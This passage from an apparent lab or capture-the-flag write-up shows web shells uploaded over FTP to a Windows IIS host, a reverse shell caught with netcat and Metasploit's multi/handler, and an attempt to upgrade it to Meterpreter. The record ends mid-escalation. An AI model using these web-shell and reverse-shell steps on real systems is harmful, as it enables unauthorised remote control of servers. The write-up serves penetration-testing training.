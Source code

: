 ```
03-17-17  05:37PM                  689 iisstart.htm
04-25-21  05:07PM                15855 shell.aspx
04-25-21  05:03PM                 5676 shell.php
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```
Run it by navigating to `http://10.129.135.184/shell.aspx`.

We also have netcat listening.
```
hippoeug@kali:~$ nc -lnvp 4545
listening on [any] 4545 ...
connect to [10.10.x.x] from (UNKNOWN) [10.129.135.184] 49157
Spawn Shell...
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

Alternatively, we can also use `exploit/multi/handler`.

NOTE: WRONG DEFAULT PAYLOAD `generic/shell_reverse_tcp` USED HERE.
```
hippoeug@kali:~$ msfconsole
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options
...
msf6 exploit(multi/handler) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 exploit(multi/handler) > set lport 4545
lport => 4545
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:4545 
[*] Command shell session 1 opened (10.10.x.x:4545 -> 10.129.135.184:49158) at 2021-04-25 22:09:45 +0800

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

## 6. Privilege Escalation Failed Attempts
Let's try somethings with metasploit. First, `post/multi/manage/shell_to_meterpreter`.
```
c:\windows\system32\inetsrv>background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > back
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > show options
...
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type             Information     Connection
  --  ----  ----             -----------     ----------
  1         shell sparc/bsd  Spawn Shell...  10.10.x.x:4545 -> 10.129.135.184:49158 (10.129.135.184)
```